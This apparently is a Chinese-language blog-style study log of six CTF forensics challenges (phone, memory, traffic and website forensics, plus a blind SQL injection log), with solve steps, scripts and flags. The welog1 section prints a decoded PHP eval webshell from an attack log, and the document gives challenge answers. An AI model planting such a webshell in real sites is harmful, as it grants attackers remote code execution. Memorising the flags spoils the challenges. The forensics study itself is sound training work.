








# 2025-01-20题单

## 今日主题关键词

新手，MISC，取证，SQL注入

## 今日题目

- [x] 10金币 [2022蓝帽杯]手机取证1(初级) https://www.nssctf.cn/problem/2443 https://forensics.didctf.com/challenges#%E6%89%8B%E6%9C%BA%E5%8F%96%E8%AF%81_1-41 ✅ 2025-01-20
- [x] 20金币 [2023陇剑杯]Wireshark1_1 https://www.nssctf.cn/problem/6359  https://forensics.didctf.com/challenges#Wireshark1_1-552 https://forensics.didctf.com/challenges#%E7%BD%91%E7%AB%99%E5%8F%96%E8%AF%81_2-52 ✅ 2025-01-20
- [x] 10金币 [2022蓝帽杯]网站取证_2 https://www.nssctf.cn/problem/2452 ✅ 2025-01-20
- [x] 10金币 [OtterCTF 2018]General Info https://www.nssctf.cn/problem/2459 ✅ 2025-01-20
- [x] [应急响应]welog1 https://forensics.didctf.com/challenges#welog1-703 ✅ 2025-01-20
- [x] 10金币 [陇剑杯 2021]SQL注入 https://www.nssctf.cn/problem/295 ✅ 2025-01-20

（师哥出的题真狠啊，全是取证，硬盘要爆炸啦）

### 题目清单：

#### [陇剑杯 2021]SQL注入

这题我记得我做过，先做这个

解压附件后会获得一个log文件，这个文件是一个日志记录，里面看起来是使用脚本进行sql注入的整个过程，题目是

>某应用程序被攻击，请分析日志后作答：  
黑客最后获取到的flag字符串为_____________。

日志中多是一些时间盲注（通过响应时间判断字符串）的记录，因为要找最后获取到的flag字符串，那么直接看后面部分已经获取到库名和表名后的响应，根据响应时间的差异判断字符是否正确，根据这个信息让ai写一个脚本直接跑出来：

```python
def analyze_sql_log(log_file):
    # 存储每个位置的字符
    flag_chars = {}
    
    with open(log_file, 'r', encoding='utf-8') as f:
        lines = f.readlines()
        
    # 按位置分组存储响应长度
    position_lengths = {}
    
    for line in lines:
        if 'select%20flag%20from%20sqli.flag' not in line:
            continue
            
        try:
            # 提取位置
            pos = int(line.split('substr((select%20flag%20from%20sqli.flag),')[1].split(',')[0])
            # 提取测试的字符
            char = line.split('%20=%20')[1].split(',')[0].strip("'")
            # 提取响应长度
            length = int(line.split('" 200 ')[1].split(' ')[0])
            
            # URL解码
            char = char.replace('%7E', '~')
            char = char.replace('%7D', '}')
            char = char.replace('%7C', '|')
            char = char.replace('%7B', '{')
            char = char.replace('%5E', '^')
            char = char.replace('%5D', ']')
            char = char.replace('%5C', '\\')
            char = char.replace('%5B', '[')
            char = char.replace('%3E', '>')
            char = char.replace('%3C', '<')
            char = char.replace('%C2%80', '\x80')
            
            # 按位置分组存储响应长度
            if pos not in position_lengths:
                position_lengths[pos] = []
            position_lengths[pos].append((char, length))
            
        except Exception as e:
            continue
    
    # 分析每个位置的响应长度
    for pos in sorted(position_lengths.keys()):
        lengths = [x[1] for x in position_lengths[pos]]
        # 找出最大响应长度的字符
        max_length = max(lengths)
        for char, length in position_lengths[pos]:
            if length == max_length:  # 直接使用最大响应长度作为判断标准
                flag_chars[pos] = char
                break
    
    # 重建flag字符串
    flag = ''
    for i in range(1, max(flag_chars.keys()) + 1):
        if i in flag_chars:
            flag += flag_chars[i]
        else:
            flag += '?'  # 对于未知字符使用?占位
            
    return flag

# 使用脚本
log_file = 'access.log'
flag = analyze_sql_log(log_file)
print("提取的flag:", flag)
```





>flag{deddcd67-bcfd-487e-b940-1217e668c7db}

#### [2023陇剑杯]Wireshark1_1

题目是：
>被入侵主机的IP是？

解压后得到一个流量包，使用wireshark打开后“统计——>IPv4 Statistics——>All address



得到flag

>NSSCTF{192.168.246.28}

#### [应急响应]welog1

题目：
>请根据日志分析攻击者写入的木马的连接密码，提交格式为：flag{xxxxx}

先手盲猜一波一句话木马，解压文件得到log日志

查看日志发现异常：



发现一些十六进制内容，将其转成ascii得到
><?php @eval($_POST['3b90d75de248ce55b66e8e30873b6000']);?>

典型的一句话木马，所以flag是

> flag{3b90d75de248ce55b66e8e30873b6000}

#### [OtterCTF 2018]General Info 

题目是：
>Let’s start easy - whats the PC’s name and IP address?

解压文件后得到的是vmem后缀的文件，这是虚拟硬盘，可以用vol（每次整这个工具都会觉得很烦）提，这里可以参考[内存取证volatility工具命令详解 - 渗透测试中心 - 博客园](https://www.cnblogs.com/backlion/p/17871701.html)

用vol3提取出的ip：192.168.202.131

```bash
vol -f C:\Users\tonglinggejimo\Downloads\Compressed\OtterCTF\OtterCTF.vmem windows.netstat
```



主机名的提取需要通过注册表来查询，提取主机名的命令如下：WIN-LO6FAF3DTFE

```bash
vol -f C:\Users\tonglinggejimo\Downloads\Compressed\OtterCTF\OtterCTF.vmem windows.registry.printkey --key "ControlSet001\Control\ComputerName\ComputerName"
```



#### [2022蓝帽杯]网站取证_2

题目:
>据了解，某网上商城系一团伙日常资金往来用，从2022年4月1日起使用虚拟币GG币进行交易，现已获得该网站的源代码以及部分数据库备份文件，请您对以下问题进行分析解答。
>请提交数据库连接的明文密码

解压后得到一个sql文件和一个www文件夹，在www文件夹下有admin中的config.php中获得：

```php
<?php
/**
 * Created by PhpStorm.
 * User: cjs
 * Date: 2017/9/21
 * Time: 11:39
 */

return [
    'Login_Key1' => 'kblt',
    'Login_Key2' => 'd434Yp0vtd',

    'Row' => 10,


    'Order_Score' => 1,
    'Channel_Order_Score' => 1,
    'Engineering_Order_Score' => 100,


];
```

这个题的解决我纯问gpt，
问询过程如下：

##### 1. 定位配置文件
首先找到了 `WWW/build.php`，这是一个 ThinkPHP 框架的构建配置文件。这提示我们应该去寻找数据库配置文件。

##### 2. 寻找密码存储位置
检查 `WWW/application/admin/config.php`，发现了两个密钥：
```php
'Login_Key1' => 'kblt',
'Login_Key2' => 'd434Yp0vtd',
```
但这只是登录验证用的密钥，不是我们要找的数据库密码。

##### 3. 找到数据库配置
在 `WWW/application/database.php` 中发现数据库配置：
```php
'type'            => 'pgsql',
'hostname'        => '127.0.0.1',
'database'        => 'store',
'username'        => 'postgres',
'password'        => my_encrypt(),
```
发现密码使用了 `my_encrypt()` 函数加密。

##### 4. 定位加密函数
在 `WWW/application/encrypt/encrypt.php` 中找到加密实现：
```php
function my_encrypt(){
    $str = 'P3LMJ4uCbkFJ/RarywrCvA==';  // 加密后的密文
    $key = 'PanGuShi';                   // 加密密钥
    // ... 解密逻辑 ...
}
```

##### 5. 解密过程
加密方式：AES-128-CBC
- 密文：`P3LMJ4uCbkFJ/RarywrCvA==`
- 密钥：`PanGuShi`
- IV：使用 sha1(密钥) 的前16位

解密代码：
```php
<?php
// 已知的加密字符串
$str = 'P3LMJ4uCbkFJ/RarywrCvA==';
// 已知的密钥
$key = 'PanGuShi';

// 方法1：使用原代码中的 mcrypt（不推荐，因为已废弃）
function decrypt_mcrypt($str, $key) {
    $iv = substr(sha1($key), 0, 16);
    $td = mcrypt_module_open(MCRYPT_RIJNDAEL_128, "", MCRYPT_MODE_CBC, "");
    mcrypt_generic_init($td, $key, $iv);
    $decode = base64_decode($str);
    $decrypted = mdecrypt_generic($td, $decode);
    mcrypt_generic_deinit($td);
    mcrypt_module_close($td);
    return trim($decrypted);
}

// 方法2：使用现代的 openssl（推荐）
function decrypt_openssl($str, $key) {
    $iv = substr(sha1($key), 0, 16);
    $data = base64_decode($str);
    return trim(openssl_decrypt($data, 'AES-128-CBC', $key, OPENSSL_RAW_DATA, $iv));
}

// 解密并输出结果
echo "解密结果：" . decrypt_openssl($str, $key);

```

###### Flag
数据库密码就是解密后的结果。

###### 学到的知识点
1. ThinkPHP框架的配置文件结构
2. 数据库配置的常见位置
3. AES-128-CBC 加密算法的使用
4. PHP中的加密/解密函数
5. Base64编码的使用

找了一个在线php解释器得到结果




>NSSCTF{KBLT123}

#### [2022蓝帽杯]手机取证1(初级)

题目：
>现对一个苹果手机进行取证，请您对以下问题进行分析解答。  
>627604C2-C586-48C1-AA16-FF33C3022159.PNG图片的分辨率是？（答案参考格式：1920x1080

解压附件后得到一个zip压缩包和一个哈希值的txt，然后再解压，进入文件后打开`苹果测试 查看.exe`，之后直接搜索627604C2-C586-48C1-AA16-FF33C3022159.PNG，找到照片，导出图片后看分辨率





所以答案不是NSSCTF{360x360}嘛？？？？为啥我提交过不去，好了刷新一下后过去了，懂了，平台坑我金币

### 总结：

最开始看到师哥出的全是取证题有点吓一跳，但是这些题做的时候不难，不过有些知识点可能我得细究一下，thinkphp的搭建，用时1.5h（安装vol耗时好久，服了）

此外，取证有专门的比赛且在ctf的misc里确实很常出现